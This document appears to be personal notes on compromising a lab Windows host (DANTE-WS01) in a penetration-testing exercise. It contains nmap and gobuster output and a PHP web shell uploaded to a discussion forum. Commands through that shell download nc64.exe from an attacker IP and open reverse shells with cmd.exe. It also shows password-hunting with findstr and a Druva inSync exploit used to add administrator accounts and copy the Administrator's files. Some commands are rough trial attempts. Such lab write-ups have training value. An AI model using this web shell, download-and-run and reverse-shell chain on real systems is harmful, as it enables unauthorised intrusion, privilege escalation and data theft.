 
## NMAP

```
❯ nmap -sCV -T4 -Pn 172.16.1.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-08 12:00 PST
Nmap scan report for 172.16.1.13
Host is up (0.15s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.7)
| http-title: Welcome to XAMPP
|_Requested resource was http://172.16.1.13/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.7
443/tcp open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.7)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.7
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-title: Welcome to XAMPP
|_Requested resource was https://172.16.1.13/dashboard/
445/tcp open  microsoft-ds?

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-12-08T21:01:22
|_  start_date: N/A
|_clock-skew: 59m58s
|_nbstat: NetBIOS name: DANTE-WS01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:2e:e6 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.46 seconds
```

## Gobuster

```
❯ gobuster dir -u http://172.16.1.13 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 1043]
/.htaccess            (Status: 403) [Size: 1043]
/.htpasswd            (Status: 403) [Size: 1043]
/aux                  (Status: 403) [Size: 1043]
/cgi-bin/             (Status: 403) [Size: 1057]
/com1                 (Status: 403) [Size: 1043]
/com3                 (Status: 403) [Size: 1043]
/com2                 (Status: 403) [Size: 1043]
/com4                 (Status: 403) [Size: 1043]
/con                  (Status: 403) [Size: 1043]
/dashboard            (Status: 301) [Size: 338] [--> http://172.16.1.13/dashboard/]
/discuss              (Status: 301) [Size: 336] [--> http://172.16.1.13/discuss/]
/favicon.ico          (Status: 200) [Size: 30894]
/examples             (Status: 503) [Size: 1057]
/img                  (Status: 301) [Size: 332] [--> http://172.16.1.13/img/]
/index.php            (Status: 302) [Size: 0] [--> http://172.16.1.13/dashboard/]
/licenses             (Status: 403) [Size: 1202]
/lpt2                 (Status: 403) [Size: 1043]
/lpt1                 (Status: 403) [Size: 1043]
/nul                  (Status: 403) [Size: 1043]
/phpmyadmin           (Status: 403) [Size: 1202]
/prn                  (Status: 403) [Size: 1043]
/server-info          (Status: 403) [Size: 1202]
/server-status        (Status: 403) [Size: 1202]
/webalizer            (Status: 403) [Size: 1043]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================
```
## Technical Discussion Forum POC

https://medium.com/@cradlejack79/online-discussion-forum-site-exploit-ade900feba33

### Payload
https://www.exploit-db.com/exploits/48512

![[Pasted image 20231208124251.png]]

I registered for an account and created my payload

```txt
<?php
$command = shell_exec($_REQUEST['cmd']);
echo $command;
?>
```

After uploading the payload, we can identify it here.

![[Pasted image 20231208125644.png]]

![[Pasted image 20231208130125.png]]

After trying all types of reverseshells i decided to upload a nc64 and go that route. 

![[Pasted image 20231208131824.png]]
```
http://172.16.1.13/discuss/ups/p3ta.php?cmd=powershell%20wget%20http://10.10.14.21:8080/nc64.exe%20-o%20p3ta.exe
```

![[Pasted image 20231208131848.png]]

## Reverse Shell
http://172.16.1.13/discuss/ups/p3ta.php?cmd=p3ta.exe%20-e%20cmd.exe%2010.10.14.21%204444

![[Pasted image 20231208132104.png]]

## Enumerate passwords

```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```


![[Pasted image 20231208132824.png]]
## Druva

![[Pasted image 20231208132935.png]]
## Interesting findings 

![[Pasted image 20231208133023.png]]

This was someone's exploit :)

https://www.exploit-db.com/exploits/48505

![[Pasted image 20231208134424.png]]


I created a local admin, but I am unable to log into it. So I ended up adding Gerald as an admin

```
 iwr http://10.10.14.21:8080/p3ta_druva.py -o /p3ta_druva.py
```

```
c:\python27\python.exe p3ta_druva.py net user jayson Password123! /add
```

```
c:\python27\python.exe p3ta_druva.py 
```

```
c:\python27\python.exe p3ta_druva.py net localgroup administrators p3ta /add
```

Transfer NC64

```
iwr http://10.10.14.21:8080/nc64.exe -o nc64.exe
```

```
c:\python27\python.exe p3ta_druva.py "windows\system32\cmd.exe /C ./nc64.exe 10.10.14.21 8888 -e cmd.exe"
```

```
c:\python27\python.exe p3ta_druva.py "windows\system32\cmd.exe /C C:\xampp\htdocs\discussups\p3ta.exe 10.10.14.21 4444 -e cmd.exe"
```

```
c:\python27\python.exe p3ta_druva.py "cmd.exe /C nc64.exe -e cmd.exe 10.10.14.21 4444"
```

```
c:\python27\python.exe p3ta_druva.py xcopy C:\Users\Administrator C:\Users\Public\Downloads\p3ta /E

```

```
#python insync.py "windows\system32\cmd.exe /C net user Leon /add"
#python insync.py "windows\system32\cmd.exe /C net localgroup Administrators Leon /add"
```

```
c:\python27\python.exe p3ta_druva.py windows\system32\cmd.exe /C net user Leon /add"
```

### Working
```
c:\python27\python.exe p3ta_druva.py "windows\system32\cmd.exe /C C:\xampp\htdocs\discuss\ups\nc.exe 10.10.14.21 4444 -e cmd.exe"
```